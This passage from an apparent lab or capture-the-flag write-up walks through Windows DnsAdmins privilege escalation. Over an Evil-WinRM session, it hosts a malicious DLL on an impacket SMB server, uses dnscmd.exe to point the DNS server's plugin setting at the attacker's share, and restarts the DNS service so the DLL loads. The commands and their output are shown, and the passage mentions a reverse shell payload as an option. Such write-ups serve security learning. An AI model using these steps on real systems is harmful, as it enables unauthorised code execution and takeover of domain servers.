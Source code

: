 > _A reverse shell payload could also be used. Passing any payload this way crashes the DNS server as it never really starts. More information on how to avoid that by executing the payload as a thread_ [_here_](https://youtu.be/8KJebvmd1Fk?t=3034)_._

Now we need to make the payload accessible for the target.

```bash
# starting an SMB server
$ impacket-smbserver -smb2support share ./
Impacket v0.12.0.dev1+20231027.123703.c0e949fe - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Next, we will set the target's remote DLL path into the Windows Registry ([_command_](https://lolbas-project.github.io/lolbas/Binaries/Dnscmd/)):

<pre class="language-bash" data-overflow="wrap"><code class="lang-bash"><strong># setting the Windows Registry remote DLL path
</strong><strong>*Evil-WinRM* PS C:\Users\ryan> dnscmd.exe /config /serverlevelplugindll \\10.10.14.3\share\da.dll
</strong>
Registry property serverlevelplugindll successfully reset.
Command completed successfully.
</code></pre>

For this to be picked up, we need to restart the DNS service.

```bash
*Evil-WinRM* PS C:\Users\ryan> sc.exe stop dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 3  STOP_PENDING
                                (STOPPABLE, PAUSABLE, ACCEPTS_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x1
        WAIT_HINT          : 0x7530
*Evil-WinRM* PS C:\Users\ryan> sc.exe start dns

SERVICE_NAME: dns
        TYPE               : 10  WIN32_OWN_PROCESS
        STATE              : 2  START_PENDING
                                (NOT_STOPPABLE, NOT_PAUSABLE, IGNORES_SHUTDOWN)
        WIN32_EXIT_CODE    : 0  (0x0)
        SERVICE_EXIT_CODE  : 0  (0x0)
        CHECKPOINT         : 0x0
        WAIT_HINT          : 0x7d0
        PID                : 1924
        FLAGS              :
```
